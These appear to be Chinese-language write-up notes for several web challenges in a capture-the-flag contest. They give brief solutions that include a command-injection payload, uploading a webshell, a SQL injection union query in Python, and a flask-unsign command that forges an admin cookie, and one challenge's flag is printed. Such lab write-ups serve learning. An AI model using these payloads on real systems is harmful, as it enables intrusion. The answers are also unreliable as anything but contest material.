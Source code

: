 # 我Flag呢？
	- 打开F12看源码
- # Follow me and hack me
	- GET和POST测试题目
- # Ping
	- 简单命令执行，payload: ``1145141919810;ls``
- # 导弹迷踪
	- `wget -r 网站`下载源码
	- 然后在`game.js`中看到flag：``{y0u_w1n_th1s_!!!}``
- # PHP是世界上最好的语言！！
	- 右边执行php代码，左边看结果
- # 作业管理系统
	- F12看到账户名和密码
	- 登陆上传webshell`123.php`，访问`/123.php`即可
- # vim yyds
	- `.index.php.swp`泄漏
- # 就当无事发生
	- `git clone`，然后`git diff HEAD^ HEAD`看最新commit和上一个commit的区别
- # 这是什么？SQL ！注一下 ！
	- 普通SQL注入，注意flag在`ctftraining.flag`这个表下，不在当前的数据库下
	- ```python
	  r = base_get(url, params = {
	      "id": "1)))))) union select 1,(select flag from ctftraining.flag)#"
	  })
	  # flag,news,users,users
	  # information_schema,mysql,ctftraining,performance_schema,test,ctf
	  print(r.text)
	  ```
- # Flag点击就送！
	- 题目环境为flask, 猜测需要flask解密cookie
	- 题目没有明显漏洞，secret应该只能猜出
	- 猜测secret为`LitCTF`，使用 [[CTFWEB/Flask-Unsign]] 解密成功
	- 使用[Flask-Unsign]([[CTFWEB/Flask-Unsign]])即可伪造cookie, 提交即可拿到flag
		- ```shell
		  flask-unsign -s --secret LitCTF --cookie '{"name":"admin"}'
		  ```
	-
